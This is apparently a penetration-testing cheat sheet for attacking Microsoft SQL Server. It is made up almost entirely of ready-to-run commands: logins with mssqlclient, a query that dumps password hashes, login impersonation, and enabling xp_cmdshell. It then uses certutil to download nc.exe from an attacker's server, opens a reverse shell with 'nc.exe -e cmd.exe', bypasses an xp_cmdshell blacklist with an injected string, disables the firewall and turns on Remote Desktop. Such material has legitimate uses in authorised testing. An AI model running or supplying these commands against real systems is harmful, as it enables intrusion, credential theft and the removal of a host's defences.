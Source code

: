 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It is designed to handle a wide range of data processing tasks within corporate environments. MSSQL uses SQL (Structured Query Language) to manage databases and process queries.

### **MSSQL Enumeration**

1.  Login using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  List SQL user accounts and their status: 
    ```sql
    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
    ```

4.  Show all databases:  
    `SELECT name FROM master.dbo.sysdatabases`  

    ??? info "NOTE"

        Default databases include `master`, `tempdb`, `model`, and `msdb`.

5.  Switch to specific database:  
    `use [DATABASE-NAME];`
6.  Bypass "access denied" error (OPTIONAL):  
    `ERROR: Line 1: The server principal "MAXIM\hackfast" is not able to access the database "[DATABASE-NAME]" under the current security context.`
7.  Find users with impersonation privileges (OPTIONAL):  
    `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
8.  Impersonate another login (OPTIONAL):  
    `EXECUTE AS LOGIN = '[LOGIN-NAME]'`
9.  Switch to specific database:  
    `use [DATABASE-NAME]`
10. List all tables in the database:  
    `SELECT * FROM [DATABASE-NAME].INFORMATION_SCHEMA.TABLES;`
11. Query a specific table:  
    `select * from [TABLE-NAME];`

### **Access and Reverse Shell Techniques**

1.  Login to MSSQL using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login to MSSQL without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  Check if xp_cmdshell is enabled:  
    `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';`
4.  Enable advanced options to allow setup for xp_cmdshell:  
    `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
5.  Enable xp_cmdshell to allow SQL Server to execute command-line operations:  
    `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
6.  Set up the HTTP server to host nc.exe, create a C:\\temp folder on the target, transfer nc.exe, and execute it for a reverse shell:  
    `xp_cmdshell 'mkdir C:\temp'`,`go`
7.  Download nc.exe to the Target Machine:  
    `xp_cmdshell 'certutil -split -urlcache -f http://[IP-ADRESS]/nc.exe C:\temp\nc.exe'`,`go`
8.  Confirm that nc.exe has been placed on the target system:  
    `xp_cmdshell 'dir C:\temp'`,`go`
9.  Execute nc.exe to establish a reverse shell to the attacker's machine:  
    `xp_cmdshell 'C:\temp\nc.exe [IP-ADRESS] 443 -e cmd.exe'` ,`go`
10. Bypass blacklisted xp_cmdshell:  
    `'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping [IP-ADRESS]' —`
11. Disable the Windows Firewall to reduce defenses against external attacks:  
    `xp_cmdshell 'netsh firewall set opmode disable';`
12. Modify the registry to enable Remote Desktop, allowing remote access to the system:  
    `xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';`
